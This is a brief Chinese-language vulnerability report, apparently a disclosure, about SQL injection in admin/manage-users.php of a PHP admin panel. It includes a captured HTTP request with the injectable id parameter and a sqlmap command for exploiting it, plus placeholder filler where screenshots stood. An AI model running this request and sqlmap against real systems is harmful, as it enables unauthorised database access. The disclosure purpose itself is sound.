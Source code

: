 admin/manage-users.php文件中 $adminid 直接拼接到sql语句中，而$adminid是通过GET请求直接获取的


ddd
构造恶意数据包
GET /admin/manage-users.php?id=1 HTTP/1.1
Host: test.jc
Cookie: PHPSESSID=6keshioktp2eu9p7fg0ent8hk2
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/137.0.0.0 Safari/537.36
Referer: http://test.jc/admin/
Accept-Language: zh-CN,zh;q=0.9

run sqlmap -r get.txt --level 3


ddd
